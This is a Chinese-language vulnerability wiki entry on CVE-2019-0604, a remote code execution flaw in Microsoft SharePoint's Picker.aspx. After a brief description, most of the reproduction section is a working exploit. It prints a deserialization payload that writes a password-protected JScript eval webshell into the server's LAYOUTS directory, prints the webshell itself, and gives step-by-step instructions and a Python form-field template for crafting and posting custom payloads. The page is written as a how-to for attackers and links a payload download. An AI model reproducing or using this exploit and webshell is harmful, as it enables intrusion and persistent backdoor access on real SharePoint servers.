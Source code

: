（CVE-2019-0604）Microsoft SharePoint 远程代码执行漏洞
======================================================

一、漏洞简介
------------

Microsoft
SharePoint是美国微软（Microsoft）公司的一套企业业务协作平台。该平台用于对业务信息进行整合，并能够共享工作、与他人协同工作、组织项目和工作组、搜索人员和信息。

Microsoft SharePoint
远程代码执行漏洞（CVE-2019-0594、CVE-2019-0604，高危）：Microsoft
SharePoint软件无法检查应用程序包源标记时触发该漏洞。攻击者可在SharePoint应用程序池和SharePoint服务器中执行任意代码。

二、漏洞影响
------------

Microsoft SharePoint Enterprise Server 2016SharePoint Foundation 2013 SP1harePoint Server 2010 SP2SharePoint Server 2019

三、复现过程
------------

ItemPicker Web 控件实际上从来没有在一个 .aspx
页面中使用过。但是看看它基类型的用法，EntityEditorWithPicker，说明在
/\_layouts/15/Picker.aspx 应该有一个 Picker.aspx 文件使用了它。

该页面要求使用选择器对话框的类型通过 URL 的 PickerDialogType
参数的形式提供。在这里，可以使用以下两种 ItemPickerDialog
类型中的任何一种：

    · Microsoft.SharePoint.WebControls.ItemPickerDialog in             Microsoft.SharePoint.dll
    · Microsoft.SharePoint.Portal.WebControls.ItemPickerDialog in Microsoft.SharePoint.Portal.dll

利用第一种 PickerDialogType 类型

当表单提交 ctl00\$PlaceHolderDialogBodySection\$ctl05\$hiddenSpanData
的值以 "\_\_" 为开头时(类似于"\_dummy")，

EntityInstanceIdEncoder.DecodeEntityInstanceId(string)
处的断点将显示以下情况：而调用另外一种 ItemPickerDialog
类型时，函数调用栈只是在最上面的两个有所不同。

这表明 ctl00\$PlaceHolderDialogBodySection\$ctl05\$hiddenSpanData
的数据最终出现在了
EntityInstanceIdEncoder.DecodeEntityInstanceId(string) 中。
剩下的只需要拷贝实例 ID 和构造一个 XmlSerializer 的 payload 就可以了。

**完整POST以及具体参数如下：**

URL：`/Picker.aspx?PickerDialogType=控件的程序集限定名`

参数：
`ctl00%24PlaceHolderDialogBodySection%24ctl05%24hiddenSpanData=payload`

实际上还需访问Picker.aspx附带的其它参数，测试我不附带其它参数时提交表单是失败的。

poc
---

> https://download.0-sec.org/Web安全/Microsoft
> SharePoint/CVE20190604-Payload.7z

**解说k8gege的cve-2019-0604-exp.py**

老实说k8gege的py脚本有点花哨，一大堆的16进制字符串，分成 payload1,2,3,
好坏呀

python脚本远程post的payload,反序列化之后是一个xml数据体

    <ResourceDictionary
    xmlns="http://schemas.microsoft.com/winfx/2006/xaml/presentation"
    xmlns:x="http://schemas.microsoft.com/winfx/2006/xaml"
    xmlns:System="clr-namespace:System;assembly=mscorlib"
    xmlns:Diag="clr-namespace:System.Diagnostics;assembly=system">
    <ObjectDataProvider x:Key="LaunchCalch" ObjectType="{x:Type Diag:Process}" MethodName="Start">
        <ObjectDataProvider.MethodParameters>
            <System:String>cmd</System:String>
            <System:String>/c echo ^&lt;%@ Page Language="Jscript" %^>^&lt;%var pwd="tom";var uastr=Request.UserAgent;if (uastr.Substring(0, uastr.IndexOf("==="))== pwd) {var code=uastr.Replace(pwd+"===","");eval(code,"unsafe"); };%^> > "%CommonProgramFiles%\\Microsoft Shared\\Web Server Extensions\\15\\TEMPLATE\\LAYOUTS\\ua.aspx" </System:String>
        </ObjectDataProvider.MethodParameters>
    </ObjectDataProvider>
    </ResourceDictionary>

![3.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2019-0604)MicrosoftSharePoint远程代码执行漏洞/media/rId25.png)

即远程执行echo命令，向服务器SharePoint的模板layouts目录写了一个up.aspx文件

    cmd /c echo ^&lt;%@ Page Language="Jscript" %^>^&lt;%var pwd="tom";var uastr=Request.UserAgent;if (uastr.Substring(0, uastr.IndexOf("==="))== pwd) {var code=uastr.Replace(pwd+"===","");eval(code,"unsafe"); };%^> > "%CommonProgramFiles%\\Microsoft Shared\\Web Server Extensions\\15\\TEMPLATE\\LAYOUTS\\ua.aspx" 

生成了一个K8飞刀专用UA一句话木马.asxp，OK，shell到手

    <%@ Page Language="Jscript" %>
    <%
    var pwd="tom";
    var uastr=Request.UserAgent;
    if (uastr.Substring(0, uastr.IndexOf("==="))== pwd) 
    {
        var code=uastr.Replace(pwd+"===","");
        eval(code,"unsafe"); 
    };
    %>

### 结合k8的poc构造我们自己的payload

-   1、 下载编译好的程序，解压运行CVE20190604Forms.exe

-   2、在Cmd文本框加输入命令，点击"Update XML"按钮，会将命令合并为xml

-   3、点击"EncodeEntity"，程序将xml字符串序列化为对象，并触发执行payload,
    序列化后的字符串显示在\"payload\"文本框中

```{=html}
<!-- -->
```
    __cp087135009700370047005600d600e2004400160047001600e20035005600270067009600360056003700e2009400e600470056002700e6001600c600e2005400870007001600e60046005600460075002700160......

-   4、 \"\_\_cp\....\" 这些字符串就是payload了，复制到
    cve-2019-0604-exp.py中，修改替换掉原来k8的payload，

-   5、向Picker.aspx提交payload时，需要附带的其它参数，可通过Burp代理工具，获取一下相关的参数，再将payload值传给
    ctl00\$PlaceHolderDialogBodySection\$ctl05\$hiddenSpanData

```{=html}
<!-- -->
```
    ...

    values = {
        '__REQUESTDIGEST':YOUR_REQUESTDIGEST,
        '__EVENTTARGET':'',
        '__EVENTARGUMENT':'',
        '__spPickerHasReturnValue':'',
        '__spPickerReturnValueHolder':'',
        '__VIEWSTATE':YOUR_VIEWSTATE,
        '__VIEWSTATEGENERATOR':'',
        'ctl00$PlaceHolderDialogBodySection$ctl07$queryTextBox':'',
        'ctl00$PlaceHolderDialogBodySection$ctl05$hiddenSpanData':**YOUR_PayloadData**,
        'ctl00$PlaceHolderDialogBodySection$ctl05$OriginalEntities':'<Entities />',
        'ctl00$PlaceHolderDialogBodySection$ctl05$HiddenEntityKey':'',
        'ctl00$PlaceHolderDialogBodySection$ctl05$HiddenEntityDisplayText':'',
        'ctl00$PlaceHolderDialogBodySection$ctl05$downlevelTextBox':'&#160;',
        '__CALLBACKID':'ctl00$PlaceHolderDialogBodySection$ctl07',
        '__CALLBACKPARAM':';#;#11;#;#;#',
        '__EVENTVALIDATION':YOUR_EVENTVALIDATION
    }

    data = urllib.urlencode(values)

    ...

-   6、运行py脚本, good luck!!!

参考链接
--------

> https://github.com/boxhg/CVE-2019-0604/
